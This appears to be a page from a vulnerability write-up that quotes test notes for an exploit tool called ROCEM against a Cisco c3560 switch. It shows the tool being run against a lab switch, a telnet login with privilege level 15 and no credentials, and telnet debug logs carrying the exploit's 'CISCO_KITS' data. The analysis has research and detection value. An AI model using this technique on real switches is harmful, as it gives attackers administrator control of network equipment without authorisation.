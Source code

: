 
```
Test set/unset feature of ROCEM
DUT configured with target configuration and network setup
DUT is accessed by hopping through three flux nodes as per the CONOP
Reloaded DUT to start with a clean device
From Adverse ICON machine, set ROCEM:
root@debian:/home/user1/ops/adverse/adverse-1r/rocem# ./rocem_c3560-ipbase-mz.122-35.SE5.py -s 192.168.0.254
[+] Validating data/interactive.bin
[+] Validating data/set.bin
[+] Validating data/transfer.bin
[+] Validating data/unset.bin
****************************************
Image: c3560-ipbase-mz.122-35.SE5
Host: 192.168.0.254
Action: Set
****************************************
Proceed? (y/n)y
[*] Attempting connection to host 192.168.0.254:23
[+] Connection established
[*] Sending Protocol Step 1
[*] Sending Protocol Step 2
[+] Done
root@debian:/home/user1/ops/adverse/adverse-1r/rocem#
Verified I could telnet and rx priv 15 without creds:
root@debian:/home/user1/ops/adverse/adverse-1r/rocem# telnet 192.168.0.254
Trying 192.168.0.254...
Connected to 192.168.0.254.
Escape character is '^]'.
MLS-Sth#
MLS-Sth#show priv
Current privilege level is 15
MLS-Sth#
```

在研究此漏洞时，我们发现了一段非常有用的信息，即telnet的调试输出。下面是引自该文档的内容： 



```
14. Confirm Xetron EAR 5355 - Debug telnet causes anomalous output 
  1.Enabled debug telnet on DUT
  2.Set ROCEM
  3.Observed the following:
    000467: Jun 3 13:54:09.330: TCP2: Telnet received WILL TTY-SPEED (32) (refused)
    000468: Jun 3 13:54:09.330: TCP2: Telnet sent DONT TTY-SPEED (32)
    000469: Jun 3 13:54:09.330: TCP2: Telnet received WILL LOCAL-FLOW (33) (refused)
    000470: Jun 3 13:54:09.330: TCP2: Telnet sent DONT LOCAL-FLOW (33)
    000471: Jun 3 13:54:09.330: TCP2: Telnet received WILL LINEMODE (34)
    000472: Jun 3 13:54:09.330: TCP2: Telnet sent DONT LINEMODE (34) (unimplemented)
    000473: Jun 3 13:54:09.330: TCP2: Telnet received WILL NEW-ENVIRON (39)
    000474: Jun 3 13:54:09.330: TCP2: Telnet sent DONT NEW-ENVIRON (39) (unimplemented)
    000475: Jun 3 13:54:09.330: TCP2: Telnet received DO STATUS (5)
    000476: Jun 3 13:54:09.330: TCP2: Telnet sent WONT STATUS (5) (unimplemented)
    000477: Jun 3 13:54:09.330: TCP2: Telnet received WILL X-DISPLAY (35) (refused)
    000478: Jun 3 13:54:09.330: TCP2: Telnet sent DONT X-DISPLAY (35)
    000479: Jun 3 13:54:09.330: TCP2: Telnet received DO ECHO (1)
    000480: Jun 3 13:54:09.330: Telnet2: recv SB NAWS 116 29
    000481: Jun 3 13:54:09.623: Telnet2: recv SB 36 92 OS^K'zAuk,Fz90X
    000482: Jun 3 13:54:09.623: Telnet2: recv SB 36 0 ^CCISCO_KITS^Ap
```
